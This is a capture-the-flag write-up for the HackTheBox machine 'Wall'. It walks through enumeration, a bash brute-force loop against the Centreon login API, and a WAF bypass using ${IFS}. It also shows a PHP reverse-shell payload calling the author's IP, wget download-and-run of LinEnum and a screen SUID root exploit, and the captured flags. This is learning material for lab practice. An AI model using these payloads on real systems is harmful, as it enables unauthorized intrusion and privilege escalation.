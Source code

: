 # HackTheBox: Wall.
My write up for the recently retired HackTheBox machine: Wall!

Wall was a fairly easy machine, although a little frustrating.

The machine had a web application vulnerable to RCE, however it was (semi) protected by a WAF.

Root access involved a vulnerable SUID bit.

## In the beginning..
As usual, I run nMap:

```console
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 2e:93:41:04:23:ed:30:50:8d:0d:58:23:de:7f:2c:15 (RSA)
|   256 4f:d5:d3:29:40:52:9e:62:58:36:11:06:72:85:1b:df (ECDSA)
|_  256 21:64:d0:c0:ff:1a:b4:29:0b:49:e1:11:81:b6:73:66 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
Finding http on port 80 along with SSH on port 22.

### HTTP

Continuing with basic enumeration, I run dirb on the web app.

```console
$ dirb http://10.10.10.157/
```
Discovering these pages:
* aa.php
* server_status
* monitoring

/monitoring being the most interesting page, as it was protected by basic http authentication.

After attempting to login with common credentials and bruteforcing to no avail. I looked to the forums - finding this interesting post by @argot:

> English teachers can be very good at monitoring their class. Often times, if you use the wrong verb, they wont let you go. If you use different VERBS, maybe they'll let you go or at the very least they'll be more talkative.

## Verbs?
Instead of GET, a POST request to /monitoring results in:
```console
root@kali:~# curl -X POST "http://10.10.10.157/monitoring/" -d "username=u&password=p"
<h1>This page is not ready yet !</h1>
<h2>We should redirect you to the required page !</h2>
<meta http-equiv="refresh" content="0; URL='/centreon'" />
```
A redirection to /centreon!

  [Centreon](https://github.com/centreon/centreon) is one of the most flexible and powerful monitoring software on the market; it is absolutely free and Open Souce.

Looking around on centreon [documentation](https://documentation.centreon.com/docs/centreon/en/19.04/api/api_rest/index.html#authentication), I found the login api was at:

  http://10.10.10.157/centreon/api/index.php?action=authenticate

### Bruteforcing script!
The documentation says the default username is admin.
So I wrote a quick script to bruteforce login API using rockyou:

```bash
#!/bin/bash
cat rockyou.txt | while read line
do
	echo "password=$line";
	curl -X POST "http://10.10.10.157/centreon/api/index.php?action=authenticate" -d "username=admin&password=$line";
done

```
The script completes, finding the password to be password1.

### Attempting to pop a shell

Some research yields this related CVE: 
https://github.com/mhaskar/CVE-2019-13024

However it dosen't work. Why?

## WAF Evasion
A Web Application Firewall is blocking my attempts. 

I tested the WAF by hand, finding it results in status 403 when either 'nc' or ' ' (space character) were present.

So to inject the command, these two could not be present.

## ${IFS}
After some time studying at mhaskar's script, I decided to exploit using the GUI route.

Instead of space, I used ${IFS} to escape the char as well as a PHP exploit to bypass 'nc'.

* [Payloads all the things](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)
* [StackExchange](https://security.stackexchange.com/questions/198928/reverse-php-shell-disconnecting-when-netcat-listener)

Using the above links, I crafted a payload that results in status 200, then put the payload into Commands > Misc and bound it to the poller.

Payload:
```php
php${IFS}-r${IFS}'$s=fsockopen("10.10.14.***",1337);$proc=proc_open("/bin/sh",array(0=>$s,1=>$s,2=>$s),$pipes);'
```
I then navigated to the page that mhaskar's script is sending requests to, checked the box that says 'post command' and hit export while listening on netcat.

Netcat listener:
```console
$ nc -lvp 1337
```
I got a shell!
```console
$ id
$ uid=33(www-data) gid=33(www-data) groups=33(www-data),6000(centreon)
```

## www-data
Now I have a restricted shell - I need to perfrom some privilege escalation.

I used LinEnum by running the following on my machine in the directory that LinEnum was in.

```console
$ python -m SimpleHTTPServer 8000
```

And running the following on the target machine:

```console
$ wget 10.10.14.***:8000/LinEnum.sh
$ chmod +x LinEnum.sh
$ ./LinEnum.sh
```

## SUID PrivEsc

Looking through the LinEnum report, I spot a vulnerable SUID:
```console
-rwsr-xr-x 1 root root 1595624 Jul  4 00:25 /bin/screen-4.5.0
```
After a bit of research, I found an [exploit](https://lists.gnu.org/archive/html/screen-devel/2017-01/msg00025.html)!

With accompanying script: [screen2root](https://github.com/XiphosResearch/exploits/blob/master/screen2root/screenroot.sh).

In the same way as before I run the script on the target machine:
```console
$ wget 10.10.14.***:8000/screenroot.sh
$ chmod +x screenroot.sh
$ ./screenroot.sh
```

## Rooted!

After running the script, I get root access!

```console
$ whoami
$ root
```

I grab the root flag:
```console
$ cat /root/root.txt
$ 1fdbcf8c33eaa2599afdc52e1b4d5db7
```
And the user flag:
```console
$ cat /home/shelby/user.txt
$ fe6194544f452f62dc905b12f8da8406
```

## Cleaning up after myself
```console
$ cd /var/tmp
$ rm screenroot.sh
$ rm LinEnum.sh
```

## Thanks for reading :)

I've prepared writeups for many machines, feel free to check back or ask for help!
